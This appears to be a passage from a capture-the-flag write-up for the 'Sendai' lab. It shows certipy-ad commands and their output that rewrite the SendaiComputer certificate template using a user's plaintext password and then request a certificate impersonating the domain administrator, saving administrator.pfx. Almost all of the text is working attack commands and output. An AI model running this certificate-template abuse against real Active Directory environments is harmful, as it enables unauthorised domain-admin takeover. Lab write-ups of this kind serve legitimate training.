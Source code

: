     Enter ca: sendai-DC-CA
    Enter upn: administrator@sendai.vl

    Generated Commands:
    certipy-ad template -username clifford.davey@sendai.vl -password RFmoB2WplgE_3p -template SendaiComputer -save-old

    certipy-ad req -username clifford.davey@sendai.vl -password RFmoB2WplgE_3p -ca sendai-DC-CA -target sendai.vl -template SendaiComputer -upn administrator@sendai.vl

#### commands

    ➜  sendai certipy-ad template -username clifford.davey@sendai.vl -password RFmoB2WplgE_3p -template SendaiComputer -save-old
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Saved old configuration for 'SendaiComputer' to 'SendaiComputer.json'
    [*] Updating certificate template 'SendaiComputer'
    [*] Successfully updated 'SendaiComputer'

get administrator.pfx

    ➜  sendai certipy-ad req -username clifford.davey@sendai.vl -password RFmoB2WplgE_3p -ca sendai-DC-CA -target sendai.vl -template SendaiComputer -upn administrator@sendai.vl

    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 5
    [*] Got certificate with UPN 'administrator@sendai.vl'
    [*] Certificate has no object SID
    [*] Saved certificate and private key to 'administrator.pfx'

